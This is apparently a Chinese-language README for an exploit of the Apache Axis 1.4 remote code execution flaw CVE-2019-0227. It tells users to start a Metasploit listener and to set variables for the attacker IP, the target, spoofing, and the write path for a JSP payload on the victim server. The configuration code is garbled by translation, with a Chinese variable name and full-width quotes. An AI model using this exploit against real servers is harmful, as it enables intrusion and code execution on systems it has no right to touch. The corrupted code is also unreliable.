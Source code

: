 # cve-2019-0227
apache axis1.4远程代码执行漏洞
需要在本机msf设置监听，另外需要修改代码24-30行处

＃您需要更改这些变量以匹配您的配置
myip =  “ 192.168.0.117 ”  ＃您机器的IP
target =  “ 192.168.0.102 ”  ＃目标IP
网关=  “ 192.168.0.1 ”  ＃默认网关
targetport =  “ 8080 ”  ＃目标运行轴的端口（可能是8080）
pathtoaxis =  “ http://192.168.0.102:8080/axis ”  ＃这可以是自定义的视轴安装，但是这是默认
spoofinterface =  “ eth0 ”  ＃伪造的接口
jspwritepath =  “ webapps \\ axis \\ exploit.jsp ”  ＃在目标上写入JSP有效负载的相对路径这是Tomcat安装的默认路径

